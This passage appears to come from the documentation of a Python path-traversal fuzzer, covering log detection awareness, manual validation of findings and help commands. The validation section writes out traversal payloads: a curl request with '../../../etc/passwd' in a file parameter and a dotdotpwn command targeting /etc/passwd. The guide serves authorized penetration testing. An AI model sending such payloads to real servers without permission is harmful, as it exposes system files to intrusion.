 **Log analysis awareness:**

- Traversal attempts create distinctive log patterns
- Consider log monitoring and SIEM detection
- Plan for incident response procedures
- Coordinate with blue team if applicable

### 🔍 Vulnerability Validation

**Confirm findings manually:**

```bash
# Use generated patterns for manual verification
dotdotpwn --module stdout --depth 3 --file /etc/passwd | head -5

# Test specific payloads manually
curl "http://target.com/page.php?file=../../../etc/passwd"
```

**Document exploitation steps:**

1. Save exact payloads that worked
2. Document response content (sanitized)
3. Test impact and data exposure
4. Verify reproducibility

---

## 🆘 Help and Support

### 📚 Built-in Help System

```bash
# Main help
dotdotpwn --help

# Comprehensive examples
dotdotpwn help-examples

# Module-specific information
dotdotpwn help-modules
```

### 🔗 Additional Resources

- **GitHub Repository:** https://github.com/dotdotpwn/dotdotpwn-python
- **Original Perl Version:** https://github.com/wireghoul/dotdotpwn
- **Issue Tracking:** https://github.com/dotdotpwn/dotdotpwn-python/issues
- **Documentation:** https://dotdotpwn-python.readthedocs.io

### 💬 Community Support

- Submit issues on GitHub for bugs
- Feature requests welcome
- Security issues: responsible disclosure
- Contributions: follow coding standards

---